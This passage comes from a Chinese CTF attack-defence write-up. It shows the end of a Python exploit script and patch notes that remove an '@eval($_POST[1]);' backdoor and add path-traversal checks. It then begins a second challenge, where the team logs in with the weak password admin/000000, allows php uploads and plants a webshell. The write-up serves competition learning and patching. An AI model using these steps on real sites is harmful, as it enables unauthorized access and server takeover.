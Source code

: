```python
    ans = requests.post(url=url+poc, headers=header, data=data)
    print(ans.text)

exp_2()
```

### PATCH编写

#### index.php 修复

直接删除`@eval($_POST[1]);`代码即可。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-c224f38e736c288b2064220c67823ade4e9f45b5.png)

#### mc-core.php 修复

1. 增加了对 file 的安全验证，确保 file 不为空、是字符串类型、不包含 /（防止通过路径遍历攻击）、并且存在于文件系统中。
2. 使用 realpath 函数获取 $file 的绝对路径，避免可能存在的路径遍历攻击。
3. 检查 $file 的路径是否是 **DIR** 的子路径，以确保下载的文件在当前脚本所在的目录下，防止可能存在的路径遍历攻击。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-66091e025a50261191fbe3bcb6736b7957564396.png)

ezphp
-----

相对上一道题目，这一道题目相对来说难一些，但其实也很简单。主要的漏洞是文件上传后获取网站源码并进行代码审计。在这一题中漏洞点比较多，后门也比较多，在这一题中我们拿到了一血。 不过web题目，被对手流量分析后其实很快就能相同利用，相对的，我们也通过流量分析拿到了其他的漏洞点。最后呈现的是4个EXP。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-87035d0b1c1ae6311f37b608db4e783bca0eb592.png)

### 题目漏洞挖掘

代码审计工具记录：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-32e2fb7945af3ac8496f7c04889616e89e4f838a.png)  
D盾查杀情况：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-5ae819454aea83eb95db269bc94ccdc57c126a9f.png)  
河马查杀情况：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-66210c8c84a26fbfa1d735da96088a9110da9be6.png)

#### 漏洞点1：后台木马文件上传

当时直接找到后台使用弱口令`admin/000000`进入后台了。一开始我们尝试寻找文件下载、SQL注入、命令/代码执行漏洞，无果。文件上传的地方都是白名单。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-ad094a25c4d29e0fec42302a3f045247872892fb.png)  
后面在系统设置中找到了上传配置，这里直接添加`php`类型，并且把上传文件大小修改成`5000`。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-8355ac809ba6dfdd06007cd95c742368c3e3f9db.png)  
上传PHP木马后将站点源码打包下载到本地进行分析。修复时尝试修改管理员密码还发现无法修改。
